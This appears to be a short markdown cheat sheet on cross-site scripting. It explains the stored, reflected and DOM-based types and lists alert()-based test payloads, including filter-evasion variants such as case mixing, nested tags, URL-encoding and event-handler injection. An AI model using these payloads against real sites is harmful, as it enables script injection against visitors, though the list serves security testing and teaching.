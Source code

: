 Cross Site Scripting
----------------------------

Types of XSS injections:

1)Stored - it is possible when a website or web application stores user input and later serves it to other users. An application is vulnerable if it does not validate user input before storing content and embedding it into HTML response pages.


2)Reflected - the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server.


3)DOM base - It is possible if the web application’s client-side scripts write data provided by the user to the Document Object Model (DOM). The data is subsequently read from the DOM by the web application and outputted to the browser. If the data is incorrectly handled, an attacker can inject a payload, which will be stored as part of the DOM and executed when the data is read back from the DOM.

Basic payload:
```
';alert('xss inj');' 
<script>alert('xss inj')</script>
<sCrIpt>alert(1)</ScRipt>
<scr<script>ipt>alert('xss inj')</scr<script>ipt>
"><script>alert('xss inj')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
%3Cscript%3Ealert(%27xss%20inj%27)%3C%2Fscript%3E
%253Cscript%253Ealert(%2527xss%2520inj%2527)%253C%252Fscript%253E
#"><img src=/ onerror=alert(2)>
```

Image payload
```
<img src="javascript:alert('xss inj');">
<img """><script>alert("xss inj")</script>">
<img src= onmouseover="alert('xxs')">
<img src=x onerror="alert(String.fromCharCode(88,83,83))"></img>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

HTML5 payload
```
<body onload=alert(/xss/.source)>
<select autofocus onfocus=alert('xss inj')>
<input autofocus onfocus=alert('xss inj')>
<textarea autofocus onfocus=alert('xss inj')>
```

What is available for manipulation:
1.Cookie 
2.DOM
3.Connectivity
4.Async JS requests 


References:
-------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/Cross-site_scripting)  
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
